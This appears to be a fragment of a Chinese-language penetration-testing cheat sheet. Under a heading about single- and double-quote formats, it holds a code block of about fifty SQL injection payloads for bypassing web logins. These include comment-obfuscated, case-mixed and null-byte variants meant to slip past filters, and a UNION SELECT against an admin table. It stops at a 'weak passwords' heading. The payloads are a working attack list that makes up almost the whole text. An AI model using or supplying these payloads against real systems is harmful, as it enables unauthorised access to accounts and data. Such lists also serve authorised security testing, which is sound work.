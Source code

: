 单引号/双引号两种格式

```sql
'/**/or/**/'2'>'1
'/**/or/**/''='
'/**/UnIon/**/SeLect/**/1,1,1/**/from/**/admin/**/Where/**/''='
'/**/or/**/2>1#
admin'#
admin'--/**/
admin'/**/or/**/1=1#
admin'/**/or/**/1=1--/**/
admin'/**/or/**/'1'='1
'='
'/**/or/**/2>1--/**/
admin'/**/and/**/2/**/BeTween/**/1/**/and/**/3--/**/
admin'/**/and/**/2/**/BeTween/**/1/**/and/**/3#
admin'/*
'or/**/1=1/*
or/**/a"="a
"or/**/1=1--
or""="""
or="a'='a
"or1=1--
or=or"""
''or'='or'
')/**/or/**/('a'='a
'.).or.('.a.'='.a
'or/**/1=1
'or/**/1=1--
'or"="a'='a
'or'/**/'1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or'/**/1=1--
a'or'1=1--
or/**/'a'='a'
or/**/1=1--
or1=1--
'.).or.('.a.'='.a/**/
or/**/=/*
"or/**/1=1%00
'OR/**/1=1%00
-1%cf'/**/UnIon/**/SeLect/**/1,1,1/**/as/**/password,1,1,1/**/%23"
' or '1'='1
' or ''='
1
' or 1=1#
' or 1=1-- 
```

### 弱密码

